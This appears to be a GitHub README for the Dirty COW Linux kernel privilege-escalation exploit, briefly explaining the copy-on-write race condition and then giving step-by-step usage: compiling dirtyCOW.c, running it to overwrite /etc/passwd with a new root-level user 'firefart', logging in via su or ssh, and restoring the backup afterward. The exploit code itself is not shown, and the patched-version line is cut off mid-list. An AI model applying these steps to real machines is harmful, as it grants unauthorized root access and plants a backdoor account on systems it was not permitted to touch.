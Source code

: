 A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system, the exploit is fully explained here: https://www.youtube.com/watch?v=PCKhmPTDurg.

Dirty COW vulnerability affects all versions of the Linux Kernel since version 2.6.22, which was released in 2007. According to Wikipedia, the vulnerability has been patched in kernel versions 4.8. 3, 4.7.
# Exploitation

To use this exploit modify the user values according to your needs.

The default user being created is `firefart`.

Compile with:

```bash
gcc -pthread dirtyCOW.c -o dirtyCOW -lcrypt
```

Then run the newly create binary by either doing:

```bash
./dirtyCOW
or
./dirtyCOW my-new-password
```

Afterwards, you can either `su firefart` or `ssh firefart@<ip address>`

**Note: DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!**

```bash
mv /tmp/passwd.bak /etc/passwd
```
